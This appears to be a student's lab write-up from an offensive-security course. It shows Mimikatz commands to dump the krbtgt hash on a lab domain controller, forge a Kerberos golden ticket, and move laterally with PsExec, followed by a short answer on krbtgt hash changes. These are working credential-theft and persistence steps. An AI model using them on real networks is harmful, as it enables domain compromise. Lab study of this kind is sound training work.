





### 21.5.1.1 Exercises
#### 1. Repeat the steps shown above to dump the krbtgt password hash and create and use a golden ticket.

1. On the DC logged in as a Domain Admin, open Mimikatz in an elevated prompt, dump the password hashes and record the hash of `krbtgt`

   ```powershell
   privilege::debug
   lsadump::lsa /patch
   ```

   

2. From the 'compromised' Windows 10 machine, run Mimikatz from a prompt, clear the Kerberos tickets and create the Golden Ticket using a made up user:

   ```powershell
   kerberos::purge
   kerberos::golden /user:docrobot /domain:corp.com /sid:S-1-5-21-4038953314-3014849035-1274281563 /krbtgt:fc274a94b36874d2560a7bd332604fab /ptt
   ```

   

3. Launch a new command prompt from Mimikatz

   ```powershell
   misc::cmd
   ```

   

4. From this command prompt, execute a lateral movement using PSExec to connect to the DC as the fake user `docrobot`

   ```powershell
   psexec.exe \\dc01 cmd.exe
   ```

   

5. Verify group membership of fake user
   

#### 2. Why is the password hash for the krbtgt account changed during a functional level upgrade from Windows 2003 to Windows 2008?

It's because AES128/AES256 cyphers are added in SFL 2008 and the upgrade forces a reset of the krbtgt password.  As a result of this, the hash changes as well.  

References:  

https://centrify.force.com/support/Article/Basics-Understanding-how-Active-Directory-Functional-Levels-affect-Centrified-Systems-22077/

https://techcommunity.microsoft.com/t5/exchange-team-blog/considering-updating-your-domain-functional-level-from-windows/ba-p/611208#

